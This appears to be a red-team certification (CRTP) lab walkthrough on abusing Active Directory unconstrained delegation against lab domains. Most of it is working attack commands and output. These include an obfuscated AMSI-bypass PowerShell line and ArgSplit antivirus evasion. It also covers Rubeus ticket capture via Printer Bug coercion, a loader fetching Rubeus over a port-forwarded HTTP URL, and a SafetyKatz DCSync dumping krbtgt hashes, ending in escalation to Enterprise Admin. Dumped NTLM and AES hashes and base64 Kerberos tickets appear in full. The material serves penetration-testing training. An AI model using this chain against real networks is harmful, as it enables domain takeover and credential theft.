








CRTP - Certified Red Team Professional
Unconstrained Delegation
Unconstrained Delegation
Unconstrained delegation is a powerful feature in Active Directory (AD) that allows a computer to impersonate any user or service in the domain without any restrictions. This feature is often used in multi-tiered web applications to allow front-end services to access back-end resources without requiring users to re-authenticate. However, it also poses significant security risks if not properly configured and monitored.
How Unconstrained Delegation Works
When a user logs into a computer with unconstrained delegation enabled, the computer saves a copy of the user’s Ticket Granting Ticket (TGT) in memory. This TGT can then be used to impersonate the user and access any service or resource in the domain. If an attacker gains access to this TGT, they can use it to move laterally within the domain and gain access to sensitive information.
Risks Associated with Unconstrained Delegation
1. Lateral Movement: An attacker who gains access to a computer with unconstrained delegation enabled can move laterally within the domain, impersonating any user or service.
1. Domain Compromise: If an attacker gains access to a domain controller with unconstrained delegation enabled, they can compromise the entire domain.
1. Golden Ticket Attacks: An attacker who gains access to a KRBTGT account with unconstrained delegation enabled can use it to launch a Golden Ticket attack, gaining access to any service or resource in the domain.
Enumeration
The steps reproduced here will also include AV bypassing, but if no AV is being used in the environment then you can skip that and go forward to the enumeration.
Start by running InvisiShell then we can bypass AMSI.
RunWithRegistryNonAdmin.bat

AMSI Bypass.
S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + ('uZ'+'x') ) ([TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`BLE (('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"(("{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em') ) )."g`etf`iElD"( ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile') ),( "{2}{4}{0}{1}{3}" -f('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,' ))."sE`T`VaLUE"(${n`ULl},${t`RuE} )We can use PowerView.ps1 to enumerate machines with Unconstrained Delegation enabled in the domain.
. .\PowerView.ps1
Get-DomainComputer -Unconstrained | select -ExpandProperty name

We can see above that we do have 2 machines in the domain with Unconstrained Delegation enabled.
Since the prerequisite for elevation using Unconstrained delegation is having admin access to the machine, we need to compromise a user which has local admin access on appsrv. Recall that we extracted secrets of appadmin, srvadmin and websvc from dcorp-adminsrv. Let’s check if anyone of them have local admin privileges on dcorp-appsrv.
Assuming that we do have appadmin account secrets already.
** SAM ACCOUNT **
SAM Username : appadmin
User Principal Name : appadmin
Account Type : 30000000 ( USER_OBJECT )
User Account Control : 00010200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD )
Account expiration :
Password last change : 11/14/2022 5:51:10 AM
Object Security ID : S-1-5-21-719815819-3726368948-3917688648-1117
Object Relative ID : 1117
Credentials:
Hash NTLM: d549831a955fee51a43c83efb3928fa7
ntlm- 0: d549831a955fee51a43c83efb3928fa7
lm - 0: 73bd1687627327ed924ea946a148c2af
Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
Random Value : 6c8d3770ffbdd9d632b5861bf2a6510f
* Primary:Kerberos-Newer-Keys *
Default Salt : DOLLARCORP.MONEYCORP.LOCALappadmin
Default Iterations : 4096
Credentials
aes256_hmac (4096) : 68f08715061e4d0790e71b1245bf20b023d08822d2df85bff50a0e8136ffe4cb
aes128_hmac (4096) : 449e9900eb0d6ccee8dd9ef66965797e
des_cbc_md5 (4096) : 5ed64fa83dfd23b0
* Primary:Kerberos *
Default Salt : DOLLARCORP.MONEYCORP.LOCALappadmin
Credentials
des_cbc_md5 : 5ed64fa83dfd23b0Let’s now use Rubeus to get a session as appadmin user account and start enumerating if appadmin account is local admin in any machine in the domain.
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args %Pwn% /user:appadmin /aes256:68f08715061e4d0790e71b1245bf20b023d08822d2df85bff50a0e8136ffe4cb /opsec /createnetonly:C:\Windows32\cmd.exe /show /ptt
now that we where able to get the session let’s just check the cached ticket to confirm that we do have the valid session.
klist

Ok now that we do have a session as appadmin user, let’s see if we do have local admin rights to what machines in the domain.
. .\Find-PSRemotingLocalAdminAccess.ps1
Find-PSRemotingLocalAdminAccess -Domain dollarcorp.moneycorp.local

The screenshot above, shows us that user appadmin user account has local admin access to dcorp-appsrv machine, that’s great, we will use this user.
We can use multiple methods now to copy Rubeus to dcorp-appsrv to abuse Printer Bug!
Printer Bug - Rubeus
Using PELoader.exe for args encoding.
Back to cmdlet, PELoader.exe is a tool used to load a payload into memory. So I’ll use PELoader.exe now to load and execute Rubeus.exe into memory. Pay attention that if we are using PELoader.exe to load payloads into memory only. It is also good that we execute ArgSplit.bat first to encode parameters of Rubeus, SafetyKatz and BetterSafetyKatz.
Let’s start by copying PELoader into dcorp-appsrv machine.

Once we have copied PELoader.exe into appsrv machine we can run Rubeus in listener mode.
Remember to run ArgSplit on the student VM to encode "monitor" and then run the generated commands in the winrs session on dcorp-appsrv
Let’s access dcorp-appsrv.
winrs -r:dcorp-appsrv cmd
We should not forget to encode the word “monitor” using ArgSplit.bat file and copy again to the cmdlet.
set "z=r"
set "y=o"
set "x=t"
set "w=i"
set "v=n"
set "u=o"
set "t=m"
set "Pwn=%t%%u%%v%%w%%x%%y%%z%"We need to do a portforwarding first.
netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=172.16.100.51
C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/Rubeus.exe -args %Pwn% /targetuser:DCORP-DC$ /interval:5 /nowrap

On our local machine, let’s use MS-RPRN.exe to force dcorp-dc$ machine running the Spooler service.
C:\AD\Tools\MS-RPRN.exe \\dcorp-dc.dollarcorp.moneycorp.local \\dcorp-appsrv.dollarcorp.moneycorp.local

We wil see the following message above, but everything is ok. If we go to the target machine we will base64 encoded ticket.

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Let’s copy the base64 encoded ticket and use it with Rubeus on our attacking machine.
We run the below command from an elevated shell(Administrator) as the SafetyKatz command that we will use for DCSync needs to be run from an elevated process.
ArgSplit.bat
ptt
set "z=t"
set "y=t"
set "x=p"
set "Pwn=%x%%y%%z%"After passing the encoded work ptt into the cmdlet we can now execute the Rubeus using the Base64 encoded hash and the ticket will be imported
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args %Pwn% /ticket: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
Now if we do a klist to check the Cached Tickets we see that we do have the DCORP-DC$ cached Ticket.

We can now abuse the DCSync Attack using SafetyKatz.
Encoding our word with ArgSplit.bat again.
lsadump::dcsync
set "z=c"
set "y=n"
set "x=y"
set "w=s"
set "v=c"
set "u=d"
set "t=:"
set "s=:"
set "r=p"
set "q=m"
set "p=u"
set "o=d"
set "n=a"
set "m=s"
set "l=l"
set "Pwn=%l%%m%%n%%o%%p%%q%%r%%s%%t%%u%%v%%w%%x%%y%%z%"Importing and executing SafetyKatz using PELoader.exe.
C:\AD\Tools\Loader.exe -path C:\AD\Tools\SafetyKatz.exe -args "%Pwn% /user:dcorp\krbtgt" "exit”
mimikatz(commandline) # lsadump::dcsync /user:dcorp\krbtgt
[DC] 'dollarcorp.moneycorp.local' will be the domain
[DC] 'dcorp-dc.dollarcorp.moneycorp.local' will be the DC server
[DC] 'dcorp\krbtgt' will be the user account
[rpc] Service : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)
Object RDN : krbtgt
** SAM ACCOUNT **
SAM Username : krbtgt
Account Type : 30000000 ( USER_OBJECT )
User Account Control : 00000202 ( ACCOUNTDISABLE NORMAL_ACCOUNT )
Account expiration :
Password last change : 11/11/2022 10:59:41 PM
Object Security ID : S-1-5-21-719815819-3726368948-3917688648-502
Object Relative ID : 502
Credentials:
Hash NTLM: 4e9815869d2090ccfca61c1fe0d23986
ntlm- 0: 4e9815869d2090ccfca61c1fe0d23986
lm - 0: ea03581a1268674a828bde6ab09db837
Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
Random Value : 6d4cc4edd46d8c3d3e59250c91eac2bd
* Primary:Kerberos-Newer-Keys *
Default Salt : DOLLARCORP.MONEYCORP.LOCALkrbtgt
Default Iterations : 4096
Credentials
aes256_hmac (4096) : 154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848
aes128_hmac (4096) : e74fa5a9aa05b2c0b2d196e226d8820e
des_cbc_md5 (4096) : 150ea2e934ab6b80
* Primary:Kerberos *
Default Salt : DOLLARCORP.MONEYCORP.LOCALkrbtgt
Credentials
des_cbc_md5 : 150ea2e934ab6b80
* Packages *
NTLM-Strong-NTOWFEscalation to Enterprise Admins
Assuming that we were able to compromise a Domain Controller, we are Domain Admin and we want to get Enterprise Admin privileges, we need to force authentication from mcorp-dc.
Run the below command to listen for MDCORP$ tickets on dcorp-appsrv
Let’s access dcorp-appsrv.
winrs -r:dcorp-appsrv cmd
Let’s do a portforwarding first
netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=172.16.100.51
NOW…We should not forget to encode the word “monitor” using ArgSplit.bat file and copy again to the cmdlet.
set "z=r"
set "y=o"
set "x=t"
set "w=i"
set "v=n"
set "u=o"
set "t=m"
set "Pwn=%t%%u%%v%%w%%x%%y%%z%"C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/Rubeus.exe -args %Pwn% /targetuser:MCORP-DC$ /interval:5 /nowrap

NOW, on out attacking machine let’s run MS-RPRN.exe to force running the Spooler service MDCORP-DC$ to DCORP-APPSRV$:
C:\AD\Tools\MS-RPRN.exe \\mcorp-dc.moneycorp.local \\dcorp-appsrv.dollarcorp.moneycorp.local

You may see the error above, but it’s ok. No Worries at all.
We can check our listener again and we wil see that we have received a Base64 encoded Ticket for MCORP-DC$ which is the Domain Controller of moneycorp.local, which is dollarcorp.moneycorp.local Parent Domain.

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We should now copy the base64 encoded ticket and use it with Rubeus on our attacking machine.
Run the below command from an elevated shell as the SafetyKatz command that we will use for DCSync needs to be run from an elevated process
Let’s copy the base64 encoded ticket and use it with Rubeus on our attacking machine.
We run the below command from an elevated shell(Administrator) as the SafetyKatz command that we will use for DCSync needs to be run from an elevated process.
ArgSplit.bat
ptt
set "z=t"
set "y=t"
set "x=p"
set "Pwn=%x%%y%%z%"After passing the encoded work ptt into the cmdlet we can now execute the Rubeus using the Base64 encoded hash and the ticket will be imported
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args %Pwn% /ticket:doIF1jCCBdKgAwIBBaEDAgEWooIE0TCCBM1hggTJMIIExaADAgEFoREbD01PTkVZQ09SUC5MT0NBTKIkMCKgAwIBAqEbMBkbBmtyYnRndBsPTU9ORVlDT1JQLkxPQ0FMo4IEgzCCBH+gAwIBEqEDAgECooIEcQSCBG3+MoVwQoITHDz7N0Q2FoAKHK1bBbByvY4eiuFAk0T4oUJK8tvjugIw9YqMK65wDHkCGpxtlK7B5qR43Ir647kv/Zv9ysyX3nMtLIYlKFJYuomU7GauBotBGyfxwRkhPvHQlrHXaSN6nm37eu1iwGDiKSm21GX4NYxki2OGDQhJ3yMfA6VbdWGc/PEgk57hXFJAra6rFelS2XRUS96eIJHqxsaKwJIg6G51UmZjdx0yLdc60momOT41+lqllcy1FXEWBxa1MMwez/zINa8/88pAYxWau1Dc3B9+yBAAa9YVvvpF0rrfVXC2Y4D3VHOMUIE2fR0qv9Ke7aE2aZ0EVDsADFoSB1hsR05hHzLy5XoSR6yFDMTX6piae4DOV6eTfc6EOzCJGqtWQ0l2rpRMJOrjLTOctzXh5SJlTC+ACj7m130EaABS5cyG8U5ygZsbL0b8H7yEqCvPD2EDU8e4XKFDNwNxfIl945LkBtNv38ZdmVtPWv0hXggzzXl+I8ci9JTfxzdk+N9+Zix7M/9BLlSAg7VcNhUZzvbkdt6LJ+o15P3hFaspjGDt8Eg+hXKChpN2U2bAvzEWnhGKjr1CpGYFHwh9Gm3bVO/FRTAz8zsvv0ktJV9d+gKV4RX//Inym70trywxxlV0EPzrzMPeOelaQzN6pgRpy3jF8Befwtz+e4/GwEfU2uAnq7KbRGg9G/fLkjw6u8RDi4tN9yI8M5dbaGcfndyANlfPj6it/xuQk4XT9mF/wsOErcuGCoGWY4yyOfyVsayy8cTlsZteX1YO7ZJaK0ifv8Sv9LGSZQHrHaWoJdOKQoB/3C2QNeM5wfi0U8M6lCL9ye0+ExctTN5/ffYhzZoVzGgQdc1WKHREFUcCFK5PsIInvlPPmldu62uZ4vYfDSVL3lYFJ6+UFc3PPV1unzcE9U4IV